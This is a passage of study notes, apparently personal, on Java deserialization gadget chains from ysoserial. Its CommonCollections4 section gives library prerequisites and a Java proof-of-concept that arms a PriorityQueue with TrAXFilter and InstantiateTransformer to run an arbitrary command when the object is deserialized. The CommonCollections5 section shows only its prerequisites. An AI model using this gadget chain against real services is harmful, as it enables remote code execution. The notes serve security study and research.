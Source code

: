 Use whichever payload in [[Java Deserialize Vulnerabilities ysoserial study#CommonCollections1|CC1]] to reach the eventual payload.

End.

### CommonCollections4


> [!NOTE] pre-requirements
> JDK <= 1.7 
> commons-collections:commons-collections:4.0

This payload uses the same vulnerability as [[Java Deserialize Vulnerabilities ysoserial study#CommonCollections2|CC2]] but uses a different exploit chain.
Specifically, this payload uses `TrAXFilter`, triggers transformer from its constructor.
Poc:
```java
Object templates = Gadgets.createTemplatesImpl(command);  
  
ConstantTransformer constant = new ConstantTransformer(String.class);  
  
// mock method name until armed  
Class[] paramTypes = new Class[] { String.class };  
Object[] args = new Object[] { "foo" };  
InstantiateTransformer instantiate = new InstantiateTransformer(  
      paramTypes, args);  
  
// grab defensively copied arrays  
paramTypes = (Class[]) Reflections.getFieldValue(instantiate, "iParamTypes");  
args = (Object[]) Reflections.getFieldValue(instantiate, "iArgs");  
  
ChainedTransformer chain = new ChainedTransformer(new Transformer[] { constant, instantiate });  
  
// create queue with numbers  
PriorityQueue<Object> queue = new PriorityQueue<Object>(2, new TransformingComparator(chain));  
queue.add(1);  
queue.add(1);  
  
// swap in values to arm  
Reflections.setFieldValue(constant, "iConstant", TrAXFilter.class);  
paramTypes[0] = Templates.class;  
args[0] = templates;  
  
return queue;
```


### CommonCollections5


> [!NOTE] pre-requirements
> JDK >= 1.8, reproduce with JDK1.8_0382
> commons-collections:commons-collections:3.2.1



[^1]: [Paper/浅谈Java反序列化漏洞修复方案.md at master · Cryin/Paper](https://github.com/Cryin/Paper/blob/master/%E6%B5%85%E8%B0%88Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%A1%88.md)